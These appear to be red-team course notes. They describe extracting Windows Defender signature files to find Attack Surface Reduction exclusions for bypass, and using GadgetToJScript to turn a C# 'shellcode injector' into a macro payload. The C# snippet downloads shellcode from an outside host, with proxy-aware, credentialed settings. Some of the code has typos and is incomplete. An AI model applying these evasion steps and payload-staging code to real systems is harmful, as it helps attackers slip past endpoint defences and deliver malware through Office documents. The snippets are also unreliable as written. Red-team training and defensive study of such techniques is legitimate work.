 ## Reversing ASR Exclusions

Finding custom exclusions to bypass ASR. Can do so with the wd-extract.py script. The preextracted scripts are at: `/home/attacker/wd-extracted`

To do so:
1. Take a copy of the current VDM file: `cp /mnt/c/ProgramData/Microsoft/Windows\ Defender/Definition\ Updates/Backup/mpasbase.vdm`\
2. Now run wd-extract.py specifying the input file: `python3 wd-extract.py mpasbase.vdm --decompile wd-extracted`
3. You will see a lot of .luac and .lua files, the .luac files are the original compiled versions and the .lua files are the decompiled ones that we can read. You can grep like so: `grep "Block all Office applications from creating child processes" *.lua`
4. In the lua file there is a GetMonitoredLocations definition that holds where this rule applies, we then move down until we get to GetPathExclusions

## GadgetToJscript

The next step for us is having a way to execute arbitrary code and/or Win32 APIs without relying on P/Invoke in a macro. [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript) is one possible tool that we can use.  It can generate serialized gadgets from .NET (C#) code and uses an unsafe binary formatter to trigger arbitrary code execution.  These gadgets can be output in VBA format, as well as VBS and JS, which means they can be used in Office macros and other files, such as HTA.

The G2JS solution found in C:\Tools\GadgetToJscript is made of two projects, GadgetToJscript and TestAssembly. 

TestAssembly is a project DLL that will contain the malicious code we want executing inside the macro. The main GadgetToJscript project is an EXE that will do the actual transformation of the DLL into the serialized payload. 

Write a shellcode injector in the TestAssembly project:

```
namespace TestAssembly

public class Program{
public program()
{
//code execution always beings inside the class constructor
}
}
```

When the assembly goes through the formatter it will call new Program(). So put our code inside the class contstructor to execute. 

Steps to follow from here: 
1. Download the shellcode. The default SecurityProtocol configuration is SystemDefault which allows the OS to choose the best protocol and blocks any that are not considered safe. You need to explicitly set these types:
```
byte[] shellcode;

using (var client = new WebClient())
{
//make proxy aware
client.Porxy = WebRequest.GetSystemWebProxy();
client.UseDefaultCredentials = true;

//set allowed tls versions
ServicePointManager.SecurityProtocl = SecurityProtocolType.Tls12 | SecurityProtocolType.Tls13;

shellcode = client.DownloadData("https://www.infinity-bank/shellcode.bin");
};
```
